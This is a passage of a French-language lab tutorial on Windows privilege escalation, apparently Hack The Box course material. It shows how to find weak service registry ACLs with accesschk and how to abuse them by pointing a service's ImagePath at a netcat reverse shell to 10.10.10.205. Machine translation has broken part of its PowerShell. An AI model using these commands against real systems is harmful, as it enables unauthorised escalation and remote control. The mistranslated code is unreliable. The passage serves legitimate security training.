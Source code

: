 ```

* * * * *

ACL de registre permissives
------------------------

Il vaut également la peine de rechercher les ACL de service faibles dans le registre Windows. Nous pouvons le faire en utilisant `accesschk`.

#### Vérification des ACL de service faibles dans le registre

Vérification des ACL de service faibles dans le registre

```
C:\htb> accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services

Accesschk v6.13 - Signale les autorisations effectives pour les objets sécurisables
Copyright ⌐ 2006-2020 Mark Russinovich
Sysinternals - www.sysinternals.com

RW HKLM\System\CurrentControlSet\services\ModelManagerService
         KEY_ALL_ACCESS

<SNIP>

```

#### Changer ImagePath avec PowerShell

Nous pouvons en abuser en utilisant l'applet de commande PowerShell `Set-ItemProperty` pour modifier la valeur `ImagePath` , à l'aide d'une commande telle que :

Changer ImagePath avec PowerShell

```
PS C:\htb> Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443 "

```

* * * * *

Binaire d'exécution automatique du registre modifiable
----------------------------------

#### Vérifier les programmes de démarrage

Nous pouvons utiliser WMIC pour voir quels programmes s'exécutent au démarrage du système. Supposons que nous ayons des autorisations d'écriture dans le registre pour un binaire donné ou que nous puissions écraser un binaire répertorié. Dans ce cas, nous pourrons peut-être élever les privilèges à un autre utilisateur la prochaine fois que l'utilisateur se connectera.

Vérifier les programmes de démarrage

```
PS C:\htb> Get-CimInstance Win32_StartupCommand | sélectionnez le nom, la commande, l'emplacement, l'utilisateur |fl
